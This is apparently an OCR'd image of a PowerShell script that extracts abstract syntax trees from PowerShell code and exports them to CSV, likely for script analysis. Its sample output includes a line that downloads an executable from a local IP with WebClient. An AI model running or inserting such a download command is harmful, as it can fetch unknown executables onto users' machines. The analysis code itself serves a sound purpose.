 ```
    }
    $list.add([PSCustomObject]@{
      no = $no
      code = $code
      name = $name
      ast = $str
    })
  }
  $list | ConvertTo-Csv -NoTypeInformation | out-file $outputfile -Encoding ascii -Force
  Write-Output($list)
}

# 函数：拼接AST节点内容
function add_blanks {
    param (
      [parameter(Mandatory=$true)]
      [System.Array]$arr
    )
    $strNode = ''
    foreach($elem in $arr) {
        if($strNode.Length -ne 0) { #不等于
            $elem = " " + $elem
        }
        $strNode = $strNode + $elem
    }
    return $strNode
}

# 函数：提取Powershell代码的抽象语法树(AST)
function Convert-CodeToAst
{
  param
  (
    [Parameter(Mandatory)]   # 强制参数
    [System.String]$str      # 执行ps代码
  )

  # 构建hashtable
  $hierarchy = @{}
  $result = [System.Collections.ArrayList]@()

  # 创建Scipt代码块
  $code = [ScriptBlock]::Create($str)

  # 提取AST
  $code.Ast.FindAll( { $true }, $true) |
  ForEach-Object {
    # take unique object hash as key
    $id = 0;
    if($_.Parent) {
      $id = $_.Parent.GetHashCode()
    }
    Write-Debug('{0}:{1}' -f $_.GetType().Name,$id)

    if ($hierarchy.ContainsKey($id) -eq $false) {
      $hierarchy[$id] = [System.Collections.ArrayList]@()
    }
    $null = $hierarchy[$id].Add($_)
    # add ast object to parent
  }
  
  # 递归可视化树
  function Visualize-Tree($Id)
```

[NamedBlockAst]: $a = 1
[NamedBlockAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')